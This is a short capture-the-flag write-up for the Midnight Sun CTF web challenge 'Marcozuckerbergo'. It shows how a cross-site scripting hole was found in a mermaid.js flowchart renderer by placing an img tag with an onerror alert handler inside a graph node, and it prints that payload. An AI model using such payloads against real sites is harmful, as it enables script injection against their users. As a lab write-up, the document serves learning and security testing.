 ## Marcozuckerbergo

* Category  : Web
* Problem	: Fine, I'll use a damn lib. Let's see if it's any better.
* URL		: `http://marcozuckerbergo-01.play.midnightsunctf.se:3002`

----

So it was also a xss challenge where we were suppose to xss at http://marcozuckerbergo-01.play.midnightsunctf.se:3002/markdown?input=input and submit solution with xss payload.
The source code revelas the use of text-to-Flowchart library `mermaid.js`.

So i started to google for xss in the library 
```
site:github.com inurl:'knsv/mermaid' xss
```

Didnt really got anything. Then I thought to xss it the same way as `marcodowno`. If we can insert a Image in flowchart we can xss it. so googling

```
site:github.com inurl:'knsv/mermaid' insert image 
```

and we have `https://github.com/knsv/mermaid/issues/548` so
```
graph LR; Systemstart-->Icon(<img src='xx' onerror=alert`1`>)
```

Will try to render the image 
```
<img src='xx' onerror=alert`1`>
```
and we have xss
